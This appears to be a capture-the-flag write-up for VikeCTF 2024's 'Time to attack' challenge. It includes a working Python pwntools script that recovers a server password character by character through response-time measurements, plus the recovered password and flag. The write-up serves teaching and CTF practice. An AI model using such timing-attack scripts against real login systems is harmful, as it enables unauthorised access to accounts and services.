 ```yaml
---
title: VikeCTF 2024 - Time to attack 
date: Mon Mar 11 02:03:58 AM +04 2024
categories: [Writeup]
tags: [ctf,vikectf,vikectf2024,pwn,misc,timing_attack]
--- 
```


## Description

Under the cloak of night, a band of Vikings lies in wait amidst the dense foliage bordering a serene village. They huddle in the shadows, their breaths mingling with the chilled air as they keenly observe the settlement's defenses. Torches flicker, casting eerie shadows across the wooden palisades, while the rhythmic beat of guards' footsteps reverberates in the distance. Patiently, the Vikings bide their time, awaiting the opportune moment to unleash their ferocious onslaught upon the unsuspecting village, their anticipation sharpening with each passing heartbeat.

Connect to 35.94.129.106:3006 and enter the password

`nc 35.94.129.106 3006`

## Solution

The server has no description, just submit password. The description outlines _time_ many times so I tried to do [Timing Attack](https://www.wikiwand.com/en/Timing_attack).

To test the water you can only try first letter and you'll notice spikes.

```py
import string
import time
from pwn import remote, context

ALPHABET = string.ascii_letters + string.digits + '_?!'
IP = '35.94.129.106'
PORT = 3006

context.log_level = 'ERROR'

def post(payload): 
    io = remote(IP, PORT)
    start = time.monotonic()
    io.sendlineafter(b'login: ', payload.encode())
    resp = io.recvallS()
    delta = time.monotonic() - start
    io.close()
    return resp, delta

password = ''  
while True: 
    times = []
    for c in ALPHABET:
        text, delta = post(password + c)
        print(f'password={password}{c} | {text=} | {delta=}')
        times.append(delta)
        if 'vikeCTF' in text:
            exit()
    else:
        print('-'*20)

    max_time = max(times)
    password += ALPHABET[times.index(max_time)]
```

> Password: dxse465r78
{: .prompt-info }

```bash
➜ ncat 35.94.129.106 3006
Welcome! Enter password to login: dxse465r78
Login succesful: vikeCTF{T1MIN6_A77@CK5_4R3_FUN}
```

> Flag; vikeCTF{T1MIN6_A77@CK5_4R3_FUN}
{: .prompt-tip }

